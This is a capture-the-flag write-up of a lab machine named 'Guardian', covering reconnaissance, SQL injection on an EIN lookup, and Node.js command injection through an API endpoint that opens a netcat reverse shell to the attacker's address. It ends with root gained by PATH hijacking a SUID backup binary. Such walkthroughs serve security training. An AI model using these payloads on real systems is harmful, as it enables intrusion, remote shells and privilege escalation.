 # Guardian
![](../images/guardian/index.png)

## Recon
At the beginning, I used `nmap` with the following parameters to scan the target. 
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 172.16.7.194 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 22:46 -03
Warning: 172.16.7.194 giving up on port because retransmission cap hit (2).
Nmap scan report for 172.16.7.194
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:d3:ea:ff:b8:2f:a6:39:f8:af:75:1d:ca:b5:aa:59 (ECDSA)
|_  256 2e:2d:59:6e:f9:5b:83:ea:5b:ff:31:c5:0c:33:20:6e (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.74 seconds
```
The scan revealed only ports 22 (SSH) and 80 (HTTP) as open. This suggests that the target is likely running a web service and allowing remote SSH connections.

Above, we can see that there is a redirect to the `/login` page, indicating that authentication is required. Additionally, the application is using `Express.js` as its web framework, which suggests that it is built with Node.js.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $whatweb 172.16.7.194
http://172.16.7.194 [302 Found] Cookies[connect.sid], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], RedirectLocation[/login], X-Powered-By[Express], nginx[1.24.0]

http://172.16.7.194/login [200 OK] Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], PasswordField[password], Script, Title[Guardian Insurance], X-Powered-By[Express], nginx[1.24.0]
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $curl -I 172.16.7.194
HTTP/1.1 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Thu, 27 Feb 2025 01:45:42 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3ARXUeGLySkK468RfGVU4pe8Y1Is1B8Wgg.b23S0dXS0oZ7kV9WD5ix4UWkZaeImFr2krPARKPep6Y; Path=/; HttpOnly
```

First, I performed fuzzing on the web application using ffuf to discover hidden directories and files:
```bash
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 166ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 219ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 282ms]
login                   [Status: 200, Size: 2707, Words: 661, Lines: 52, Duration: 280ms]
customers               [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 187ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 157ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
:: Progress: [56164/56164] :: Job [1/1] :: 591 req/sec :: Duration: [0:01:50] :: Errors: 1 ::
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/js/FUZZ -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/js/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.js                [Status: 200, Size: 967, Words: 219, Lines: 36, Duration: 182ms]
utils.js                [Status: 200, Size: 1817, Words: 575, Lines: 68, Duration: 184ms]
register.js             [Status: 200, Size: 1535, Words: 400, Lines: 47, Duration: 221ms]
:: Progress: [3550/3550] :: Job [1/1] :: 515 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

The discovered directories and JavaScript files provide valuable insights into the application's structure. By analyzing the JavaScript files, we identified the following API endpoints:
```
images/
login/
logout/
customers/
js/

js/login.js
js/utils.js
js/register.js


POST to /api/auth/login
POST to /api/auth/first-access/register
GET to /api/auth/verify
POST to /api/rest/execute
```

Additionally, while interacting with the web application, we observed another endpoint: `POST to /api/auth/first-access`.
![](../images/guardian/recon.png)

## Exploitation
The analysis of utils.js reveals two functions, getCompany() and getCustomers(), which send POST requests to `/api/rest/execute` with the following JSON payload:
```
JSON.stringify({action: `db.getClients('${user.EIN}')`})
```

This suggests that the application dynamically executes queries based on user input, which could potentially lead to Remote Code Execution (RCE) if not properly sanitized. However, to explore this endpoint, a valid authentication token (cookie) is required.

In the `/first-access` registration process, there is an Employer Identification Number (EIN) input field. When a request is made to verify the EIN, the application sends a request to: `POST /api/auth/first-access`
![](../images/guardian/error_ein.png)

By testing the payload: `' or 1=1#` we successfully bypassed the EIN verification and obtained a list of valid EINs. This confirms that the application is vulnerable to SQL Injection on the `/api/auth/first-access` endpoint.
![](../images/guardian/sql_injection.png)

To register using the obtained EIN (56-7890123), we need to send a POST request to `/api/auth/first-access/register` with the required parameters.
![](../images/guardian/register.png)

Now that we have registered an account, we need to log in to obtain an authentication token.
![](../images/guardian/login.png)

Now that we have obtained a JWT. We can add `Authorization: Bearer TOKEN` in our request header.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJmOTRiZjRhMy1hNDJmLTRhZjMtYTRhYy1lZjFiOTkyMDRkMTYiLCJFSU4iOiI1Ni03ODkwMTIzIiwiZW1haWwiOiJ0ZXN0QGdtYWlsLmNvbSIsInVzZXJuYW1lIjoidGVzdCIsIlNTTiI6IjEyMzQiLCJhcHByb3ZlZCI6MCwiaWF0IjoxNzQwNjI2NDYxLCJleHAiOjE3NDA2NDA4NjF9.9oqz6-D1JgxsB-rvHn-rCKvpUZu_Ql2aXutMIstXz70
```

Since the vulnerability in utils.js seems to be exploitable, let's craft and test Remote Code Execution (RCE) payloads for Node.js.
![](../images/guardian/testing.png)

Using `{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('curl 10.0.10.235:4444')"}`
![](../images/guardian/command_injection.png)

Great! Now that we have confirmed Remote Code Execution (RCE), you can use the following payload to execute system commands:
```
{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('busybox nc 10.0.10.235 4444 -e sh')"}
```
![](../images/guardian/rce.png)

## Post Exploitation
Inside `/opt` we have a binary file. Since the binary inside `/opt` has the SUID bit set, it runs with elevated privileges. If we can analyze and exploit it, we may escalate privileges to root.
<br>
![](../images/guardian/opt_1.png)
![](../images/guardian/opt_2.png)

With Ghidra, we can see the following information:

Main function - check credentials and call a binary named `mysqldump`.
![](../images/guardian/ghidra_1.png)

Verify Credentials functions - give to us a login and password.
![](../images/guardian/ghidra_2.png)

So our path to get a privilege escalation it's make a `Path Hijacking` with `mysqldump` binary and login. Inside `/opt` directory:
```bash
echo 'chmod u+s /bin/bash' > /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```
![](../images/guardian/root.png)

And vouala, we have root =D